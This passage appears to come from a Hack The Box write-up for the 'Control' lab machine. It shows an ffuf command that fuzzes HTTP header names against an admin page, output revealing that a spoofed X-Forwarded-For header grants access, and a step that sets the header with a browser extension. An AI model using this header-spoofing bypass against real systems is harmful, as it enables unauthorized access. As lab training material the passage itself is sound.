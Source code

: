 ```bash
ffuf -w ~/tools/SecLists/Miscellaneous/web/http-request-headers/http-request-headers-fields-large.txt -u http://10.10.10.167/admin.php -H "FUZZ: 192.168.4.28"  -c -fs 89

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.167/admin.php
 :: Wordlist         : FUZZ: /home/dumb/tools/SecLists/Miscellaneous/web/http-request-headers/http-request-headers-fields-large.txt
 :: Header           : FUZZ: 192.168.4.28
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 89
________________________________________________

X-Forwarded-For         [Status: 200, Size: 7933, Words: 327, Lines: 154]
:: Progress: [1152/1152] :: Job [1/1] :: 288 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```



So the **X-Forwarded-For** header works well. Lets install the extension **Modify Header Value**. After this we can access the  **Admin** page:

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/control/control-header-xforwarded-for.png" style="zoom:75%;" />



